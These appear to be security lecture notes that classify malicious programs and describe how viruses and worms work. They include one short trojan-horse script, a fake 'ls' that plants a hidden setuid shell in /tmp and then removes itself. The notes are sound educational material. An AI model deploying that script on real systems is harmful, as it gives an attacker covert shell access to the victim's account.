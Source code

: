 ## taxonomy of malicious programs
- malicious programs
    - needs host program
        - trapdoors
        - logic bombs
        - trojan horses
        - viruses
    - independent
        - worms
        - zombies
        - rootkits

## trojan horse
example attacker:
replace
```
cp /bin/sh /tmp/.xxsh
chmod u+s,o+x /tmp/.xxsh
rm ./ls
ls $*
```
as /homes/victim/ls

## virus
- self-replicating code
    - like replicating trojan horse
    - alters normal code with "infected" version

## virus properties
- terminate and stay resident
    - stays active in memory after application complete
    - allows infection of previously unknow files
        -trap calls that execute a program
- stealth
    - conceal infection
        - trap read and disinfect
        - let execute call infected file
    - encrypt virus code
        - prevents "signature" to detect virus
    - polymorphism
        - change virus code to prevent signature
        - encryption plus varying decryption code
    - metamorphism
        - change code to equivalent alternatives

## worm
- runs independently
    - does not require a host program
- propagates a fully working version of itself to other machines
- carrie a payload performing hidden tasks
    - backdoor, spam relays, DDoS agents
- phases
    - probing -> exploitation -> replication -> payload -> probing ...
